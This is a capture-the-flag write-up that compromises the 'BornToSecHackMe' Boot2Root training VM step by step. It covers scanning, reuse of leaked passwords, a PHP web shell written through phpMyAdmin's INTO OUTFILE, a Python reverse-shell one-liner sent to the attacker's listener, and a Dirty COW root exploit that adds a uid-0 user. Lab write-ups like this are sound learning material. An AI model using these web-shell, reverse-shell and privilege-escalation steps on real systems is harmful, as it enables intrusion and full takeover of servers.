# Boot2Root - Writeup 1

## Find the ip and services

The VM network is configured in "bridge". So we need to find our local ip and scan the local network

    $> sudo ifconfig
    enx000ec6c7f403: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            ...
            inet 192.168.1.47  netmask 255.255.255.0  broadcast 192.168.1.255
            ...

Our ip is `192.168.1.47`. We can scan the ips in our local network with 192.168.1.0/24

    $ nmap 192.168.1.0/24
    Nmap scan report for BornToSecHackMe.home (192.168.1.22)
    Host is up (0.00030s latency).
    Not shown: 994 closed ports
    PORT    STATE SERVICE
    21/tcp  open  ftp
    22/tcp  open  ssh
    80/tcp  open  http
    143/tcp open  imap
    443/tcp open  https
    993/tcp open  imaps

The ip of the VM in this case is `192.168.1.22`. Also, we can see some interestings open services like `ssh`, `ftp`, `http`, `imap`, `https`, `imaps`

## Webserver

Let's see what is served in the web server on the port 80

    $> curl 192.168.1.22
```html
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <title>Hack me if you can</title>
        <meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
        <meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>	
        <link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
        <link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>

    </head>
    <body>
        <div id="wrapper">
            <h1>Hack me</h1>
            <h2>We're Coming Soon</h2>
            <p>We're wetting our shirts to launch the website.<br />
            In the mean time, you can connect with us trought</p>
            <p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
        </div>
    </body>
    </html>
```

Open it in a browser



A simple webpage

So, there is a webserver. We can know the server type by getting an http error



This is an Apache server

### Websites

Let's see if there is other websites hosted on this server

We will scan the ip with `dirb` on Kali Linux, with the default wordlist

```sh
$> dirb http://192.168.1.22 -r
...
---- Scanning URL: http://192.168.1.22/ ----
+ http://192.168.1.22/cgi-bin/ (CODE:403|SIZE:288)                                                                                                                    
==> DIRECTORY: http://192.168.1.22/fonts/                                                                                                                                   
+ http://192.168.1.22/forum (CODE:403|SIZE:285)                                                                                                                             
+ http://192.168.1.22/index.html (CODE:200|SIZE:1025)                                                                                                                       
+ http://192.168.1.22/server-status (CODE:403|SIZE:293)
...
```

There is a path `http://192.168.1.22/forum`, but we get a 403 (Forbidden) when trying to access it in the browser

Try it with `https`

```sh
$> dirb https://192.168.1.22 -r
...
---- Scanning URL: https://192.168.1.22/ ----
+ https://192.168.1.22/cgi-bin/ (CODE:403|SIZE:289)                                                                                                                         
==> DIRECTORY: https://192.168.1.22/forum/                                                                                                                                  
==> DIRECTORY: https://192.168.1.22/phpmyadmin/                                                                                                                             
+ https://192.168.1.22/server-status (CODE:403|SIZE:294)                                                                                                                    
==> DIRECTORY: https://192.168.1.22/webmail/ 
...
```

We found 3 websites:

- https://192.168.1.22/forum/
- https://192.168.1.22/phpmyadmin/ 
- https://192.168.1.22/webmail/

### The forum

There is 4 posts on the forum



The first from the user `lmezard` contain a log from an ssh connection.


We can extract some informations with curl. For exemple, get the "invalid user" lines

```sh
$> curl --insecure 'https://192.168.1.22/forum/index.php?id=6' | grep 'invalid user'
Oct  5 08:45:22 BornToSecHackMe sshd[7545]: input_userauth_request: invalid user nvdb [preauth]<br />
Oct  5 08:45:25 BornToSecHackMe sshd[7545]: Failed password for invalid user nvdb from 161.202.39.38 port 57329 ssh2<br />
Oct  5 08:45:26 BornToSecHackMe sshd[7547]: input_userauth_request: invalid user adam [preauth]<br />
Oct  5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2<br />
Oct  5 11:29:16 BornToSecHackMe sshd[14779]: input_userauth_request: invalid user admin [preauth]<br />
Oct  5 11:29:18 BornToSecHackMe sshd[14779]: Failed password for invalid user admin from 104.245.98.119 port 22717 ssh2<br />
Oct  5 11:29:47 BornToSecHackMe sshd[14783]: input_userauth_request: invalid user guest [preauth]<br />
Oct  5 11:29:50 BornToSecHackMe sshd[14783]: Failed password for invalid user guest from 104.245.98.119 port 24338 ssh2<br />

```

On a line, we can see something like a password typed instead of username

    Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2

Try it on ssh

```sh
$> sshpass -p '!q\]Ej?*5K5cy*AJ' ssh lmezard@192.168.1.22                                                                                                                   !
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
Permission denied, please try again.

```

The password doesn't work for ssh...

Try it to login in the forum directly



It works! Now we are connected on the forum with the user `lmezard`. Let's check in the user profile.



There is the email of this user in the profile: `laurie@borntosec.net`

There is also, in the part `Users` of the forum, a list of users:

- admin
- lmezard
- qudevide
- thor
- wandre
- zaz




It's all good for the forum

### Webmail



Now we can try to connect in the webmail with the address `laurie@borntosec.net` and the same password `!q\]Ej?*5K5cy*AJ`.

It works!




There is 2 mails. The last mail "DB Access" is interesting, it's a login/password to connect to a database


    Hey Laurie,

    You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

    Best regards.

login: `root`, password: `Fg-'kKXBj87E:aJ$`

We know there is a 3rd website, phpmyadmin. PhpMyAdmin is a web interface to manage a database. We can suppose this login/password couple will work on phpmyadmin

### PhpMyAdmin



It's good, we are now connected as `root` on the database with phpmyadmin

We can see the forum database



In the table `mlf2_userdata`, we can get all the users informations (email address, hashed passwords, etc)



#### Trying to crack the users password?

The forum use an opensource php framework `my little forum` in the version `2.3.4`

We can get the code of this version on the `my little forum` official github and check how the passwords are hashed

https://github.com/ilosuna/mylittleforum

The framework use a function `generate_pw_hash`

```php
function generate_pw_hash($pw)
 {
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
 }
```

It using a SHA1 algorithm + a random salt of 10 chars

So, for the hash `ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0516d551c28`, the sha1 is the 40 first chars and the 10 last is the salt. Now we can try to crack it

https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/

On Kali, download the rockyou.txt wordlist and try to crack the password with hashcat

```sh
$> wget 'https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt'

$> echo 'ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0:516d551c28' > pass.hash

$> hashcat -m 110 -a 0 ./pass.hash ./rockyou.txt
    ...
```

Doesn't work

Trying for all the users? Flemme

#### Backdoor

We are root on the database, we can try to inject some sql commands...



We can inject shell commands from an SQL query but we can write in local files. So we will create a php page backdoor for execute some commands in the server. With this query

```sql
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/dir/backdoor.php'
```

This is doesn't work on the `/var/www/phpmyadmin` and `/var/www/webmail` (permission denied) and after tried all the directories on the forum, it worked only on the `/var/www/forum/templates_c` directory. The final query is :

```sql
SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Now, try our backdoor with the get request `https://192.168.1.22/forum/templates_c/backdoor.php?cmd=ls%20-la`. `%20` is for replacing the space character in the url encoding format

```sh
$> curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=ls%20-la'
1	total 451
drwxrwxrwx 1 www-data www-data     60 Sep  4 14:23 .
drwxr-xr-x 1 www-data www-data     60 Oct  8  2015 ..
-rwxr-xr-x 1 www-data www-data      1 Oct  8  2015 .dummy
-rwxr-xr-x 1 www-data www-data 211754 Oct  8  2015 11c603a9070a9e1cbb42569c40699569e0a53f12.file.admin.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   3576 Oct  8  2015 2bd398249eb3f005dbae14690a7dd67b920a4385.file.login.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  23519 Oct  8  2015 40bf370f621e4a21516f806a52da816d70d613db.file.user.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   1357 Oct  8  2015 427dca884025438fd528481570ed37a00b14939c.file.ajax_preview.tpl.php
-rwxr-xr-x 1 www-data www-data  30987 Oct  8  2015 560a32decccbae1a5f4aeb1b9de5bef4b3f2a9e5.file.posting.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  13181 Oct  8  2015 5cfe6060cd61c240ab9571e3dbb89827c6893eea.file.main.tpl.php
-rwxr-xr-x 1 www-data www-data  18923 Oct  8  2015 749c74399509c1017fd789614be8fc686bbfc981.file.user_edit.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  64906 Oct  8  2015 8e2360743d8fd2dec4d073e8a0541dbe322a9482.english.lang.config.php
-rwxr-xr-x 1 www-data www-data  12086 Oct  8  2015 ad5c544b74f3fd21e6cf286e36ee1b2d24a746b9.file.user_profile.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   6343 Oct  8  2015 b2b306105b3842dc920a1d11c8bb367b28290c2a.file.subnavigation_1.inc.tpl.php
-rw-rw-rw- 1 mysql    mysql        41 Sep  4 14:23 backdoor.php
-rwxr-xr-x 1 www-data www-data  23284 Oct  8  2015 d0af1f95d9c68edf1f8805f6009e021a113a569a.file.entry.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   6167 Oct  8  2015 e9c93976b632dda2b9bf7d2a686f72654e73a241.file.user_edit_email.inc.tpl.php
-rwxr-xr-x 1 www-data www-data  28820 Oct  8  2015 f13dc3b8bcb4f22c2bd24171219c43f5555f95c0.file.index.inc.tpl.php
-rwxr-xr-x 1 www-data www-data   9263 Oct  8  2015 f75851d3a324a67471c104f30409f32a790c330e.file.subnavigation_2.inc.tpl.php
```

Our backdoor works

## The server

### Reverse shell

Now we can try to inject a reverse shell for a prettier access to the server. The classic way use netcat with a command like `nc <address> <port> -e /bin/sh`. But in this server (ubuntu), the version of netcat doesn't support the `-e` option, so it will not work

There is many options to get a reverse shell (create a socket, open port, link a shell to the socket...). There is a lot of exemples here  : asafety.fr/reverse-shell-one-liner-cheat-sheet

We will do a python version because there is already python on the server. We use `pty` to spawn a shell because we need a tty shell (for `su` etc), better then just simple `bash` process like the exemples

```py
import socket,subprocess,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.47",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=pty.spawn("/bin/bash")
```
In one line and shell command:

```sh
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.47",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/bash");'
```

We need to use an url encoder (urlencoder.org) to encode this command for using in a get request

The final command to inject this reverse shell on our backdoor using curl is :

```sh
curl --insecure 'https://192.168.1.22/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.1.47%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

First, we start netcat (ncat version on debian) as a client on our local machine to wait the connection

```sh
$> ncat -nvklp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

And now launch the reverse shell on the server with our previous final command and wait the connection on the client netcat

```
...
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.1.22.
Ncat: Connection from 192.168.1.22:59893.
www-data@BornToSecHackMe:/var/www/forum/templates_c$
```

We get a reverse bash shell on the server!

We are logged as `www-data`, our rights is limited. But we can search some informations about the server

```
$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

### Dirty cow

This a Linux kernel `3.2.0-91`. With a quick search on google `linux 3.2 cve`, we can find easily a famous exploit named `dirty cow`. The most important linux kernel CVE in 2016. We can check the details of this CVE for Ubuntu here: https://people.canonical.com/~ubuntu-security/cve/2016/CVE-2016-5195.html

> It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem.
> Because of the race condition, with the right timing, a local attacker can exploit the copy-on-write mechanism to turn a read-only mapping of a file into a writable mapping.
> Although it is a local privilege escalation, remote attackers can use it in conjunction with other exploits that allow remote execution of non-privileged code to achieve remote root access on a computer.

Some informations about Dirty Cow:
- https://en.wikipedia.org/wiki/Dirty_COW
- https://fr.wikipedia.org/wiki/Dirty_COW
- https://dirtycow.ninja/

It was fixed on the `Ubuntu 12.04 ESM (Precise Pangolin): released (3.2.0-115.157) `, our version here is `3.2.0-91-generic-pae`. We can use this exploit!!!

To find a good exploit for Dirty Cow, go to github.com/dirtycow/dirtycow.github.io/wiki/PoCs and find the exploit we need. We choosed `dirty.c` because it will create a new user with the root rights, it's less instable for our reverse shell. (https://github.com/FireFart/dirtycow/blob/master/dirty.c)

Download the file and modify the code to change the name of the created user to `easywin`

Need to past the code to the server, on `/tmp`. Without vim because we are on a reverse shell...

```sh
$ cd /tmp
$ cat > dirty.c << EOF
<paste the code>
EOF
```

Compile the exploit and run!

```sh
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: q

Complete line:
easywin:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'easywin' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'easywin' and the password 'q'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

Read the `/etc/password` to check if the new user is good

```sh
$ cat /etc/passwd
easywin:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash
...
```

There is the new user `easywin` with the uid 0 (root)

```sh
$ su easywin
su easywin
Password: q

$ id
id
uid=0(easywin) gid=0(root) groups=0(root)

$ cd

$ ls
README

$ cat README
CONGRATULATIONS !!!!
To be continued...
```

We are root :checkered_flag:
